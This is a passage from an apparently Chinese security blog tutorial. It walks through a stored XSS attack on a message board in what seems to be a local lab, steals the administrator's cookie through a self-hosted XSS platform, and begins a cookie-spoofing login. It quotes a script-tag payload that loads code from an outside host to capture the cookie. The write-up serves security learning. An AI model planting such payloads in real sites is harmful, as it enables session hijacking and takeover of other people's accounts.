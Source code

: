 
XSS代码：`<script src=http://www.xss.com/57qTTP?1614703514></script>` 
其中 `http://www.xss.com/57qTTP?1614703514` 为XSS平台，这个XSS平台是我本地搭建的

留言成功之后我们使用管理员账号来登陆查看一下这个留言内容<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614703813817.png)

然后再XSS平台查看是否成功接收到 Cookie 信息<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614703865060.png)

可以看到成功得到管理员的 Cookie 信息

接下来我们来进行尝试 Cookie 欺骗登陆

使用火狐插件 firebug 来修改添加 Cookie 信息，把时间设置一个小时<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614704058397.png)
